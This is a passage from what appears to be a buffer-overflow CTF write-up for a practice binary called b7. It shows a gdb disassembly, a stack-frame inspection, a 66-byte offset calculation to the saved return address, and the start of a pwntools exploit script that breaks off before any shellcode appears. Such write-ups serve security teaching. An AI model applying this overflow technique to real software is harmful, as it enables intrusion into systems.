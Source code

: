 ```
   0x08048520 <+69>:	push   0x0
   0x08048522 <+71>:	call   0x80483b0 <exit@plt>
   0x08048527 <+76>:	sub    esp,0x8
   0x0804852a <+79>:	push   DWORD PTR [ebp-0xc]
   0x0804852d <+82>:	push   0x804863c
   0x08048532 <+87>:	call   0x8048370 <printf@plt>
   0x08048537 <+92>:	add    esp,0x10
   0x0804853a <+95>:	sub    esp,0xc
   0x0804853d <+98>:	lea    eax,[ebp-0x3e]
   0x08048540 <+101>:	push   eax
   0x08048541 <+102>:	call   0x8048380 <strdup@plt>
   0x08048546 <+107>:	add    esp,0x10
   0x08048549 <+110>:	nop
   0x0804854a <+111>:	leave  
   0x0804854b <+112>:	ret    
End of assembler dump.
gdb-peda$ b *pls_stop+26
Breakpoint 1 at 0x80484f5
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b7/b7 
If you do not get back to your research now, we will have to implement corrective solutions.
0000
```

One wall of text later...

```
Breakpoint 1, 0x080484f5 in pls_stop ()
gdb-peda$ x/s $ebp-0x3e
0xffffcffa:	"0000\n"
gdb-peda$ info frame
Stack level 0, frame at 0xffffd040:
 eip = 0x80484f5 in pls_stop; saved eip = 0x8048572
 called by frame at 0xffffd060
 Arglist at 0xffffd038, args: 
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebp at 0xffffd038, eip at 0xffffd03c
```

And onto the quest for the holy grail...

```
>>> 0xffffd03c - 0xffffcffa
66
```

So the offset is 66. For the shellcode we are just going to recycle the shellcode from b5, since it is the same architecture it will work. The shellcode we have is 34 charactes long, so our offset only needs to be 32 after it. Now that we have the rop gadget, offset, and shellcode we can write the exploit.

```
#Import pwntools
from pwn import *

#Start the binary
target = process('./b7')

#Print the text from the binary to reach fgets
print target.recvline();

#Create the offset
offset = "0"*32

#Declare the shellcode
```